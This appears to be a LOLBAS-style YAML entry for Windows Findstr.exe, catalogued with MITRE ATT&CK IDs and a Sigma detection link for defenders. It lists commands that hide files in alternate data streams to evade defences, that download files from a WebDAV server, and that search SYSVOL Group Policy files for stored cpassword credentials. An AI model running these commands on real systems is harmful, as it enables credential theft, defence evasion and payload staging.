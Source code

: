 ```yaml
---
Name: Findstr.exe
Description: Write to ADS, discover, or download files with Findstr.exe
Author: 'Oddvar Moe'
Created: 2018-05-25
Commands:
  - Command: findstr /V /L W3AllLov3LolBas c:\ADS\file.exe > c:\ADS\file.txt:file.exe
    Description: Searches for the string W3AllLov3LolBas, since it does not exist (/V) file.exe is written to an Alternate Data Stream (ADS) of the file.txt file.
    Usecase: Add a file to an alternate data stream to hide from defensive counter measures
    Category: ADS
    Privileges: User
    MitreID: T1564.004
    OperatingSystem: Windows vista, Windows 7, Windows 8, Windows 8.1, Windows 10, Windows 11
  - Command: findstr /V /L W3AllLov3LolBas \\webdavserver\folder\file.exe > c:\ADS\file.txt:file.exe
    Description: Searches for the string W3AllLov3LolBas, since it does not exist (/V) file.exe is written to an Alternate Data Stream (ADS) of the file.txt file.
    Usecase: Add a file to an alternate data stream from a webdav server to hide from defensive counter measures
    Category: ADS
    Privileges: User
    MitreID: T1564.004
    OperatingSystem: Windows vista, Windows 7, Windows 8, Windows 8.1, Windows 10, Windows 11
  - Command: findstr /S /I cpassword \\sysvol\policies\*.xml
    Description: Search for stored password in Group Policy files stored on SYSVOL.
    Usecase: Find credentials stored in cpassword attrbute
    Category: Credentials
    Privileges: User
    MitreID: T1552.001
    OperatingSystem: Windows vista, Windows 7, Windows 8, Windows 8.1, Windows 10, Windows 11
  - Command: findstr /V /L W3AllLov3LolBas \\webdavserver\folder\file.exe > c:\ADS\file.exe
    Description: Searches for the string W3AllLov3LolBas, since it does not exist (/V) file.exe is downloaded to the target file.
    Usecase: Download/Copy file from webdav server
    Category: Download
    Privileges: User
    MitreID: T1185
    OperatingSystem: Windows vista, Windows 7, Windows 8, Windows 8.1, Windows 10, Windows 11
Full_Path:
  - Path: C:\Windows\System32\findstr.exe
  - Path: C:\Windows\SysWOW64\findstr.exe
Code_Sample:
  - Code:
Detection:
  - Sigma: https://github.com/SigmaHQ/sigma/blob/08ca62cc8860f4660e945805d0dd615ce75258c1/rules/windows/process_creation/win_susp_findstr.yml
Resources:
  - Link: https://oddvar.moe/2018/04/11/putting-data-in-alternate-data-streams-and-how-to-execute-it-part-2/
  - Link: https://gist.github.com/api0cradle/cdd2d0d0ec9abb686f0e89306e277b8f
Acknowledgement:
  - Person: Oddvar Moe
    Handle: '@oddvarmoe'
---
```

